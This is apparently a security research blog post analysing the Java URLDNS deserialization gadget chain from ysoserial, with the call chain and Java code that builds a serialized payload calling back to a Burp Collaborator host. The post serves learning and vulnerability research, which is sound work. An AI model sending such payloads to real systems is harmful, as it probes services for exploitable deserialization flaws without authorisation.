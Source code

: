```yaml
---
layout: post
title:  "Analyze Java deserialization gadget chain ( part 2 ) - For learning purpose"
date:   2022-01-21 16:00:00 +0700
categories: research
author: Quang Vo
tags: java, deserialization
description: Research
---
```


## Introduction
In the previous blog, we have introduced CommonsCollections5 gadget chain, now we going to dive in another gadget chain which is "easier" to understand than the **CommonsCollections5** , it is **URLDNS** gadget chain

## URLDNS gadget chain

From ysoserial, here is how the gadget chain look like:
```
HashMap.readObject()
    HashMap.hash()
      URL.hashCode()
        URLStreamHandler.hashCode()
          URLStreamHandler.getHostAddress()
            InetAddress.getByName()
```

The code to trigger the gadget chain:
```java
    // URL DNS gadget chain
    public static void URLDNSChain()  throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        URL url = new URL("http://pd6qbb5d343bdjpndqhi9a4uslybm0.burpcollaborator.net");
        String fileName = "/home/quangvo1/IdeaProjects/payloadser";
        HashMap<URL, Integer> ht = new HashMap<URL, Integer>();
        ht.put(url, 123);
        Field f1 = URL.class.getDeclaredField("hashCode");
        f1.setAccessible(true);
        f1.set(url, -1);
        serializeObject(ht, fileName);
    }
```
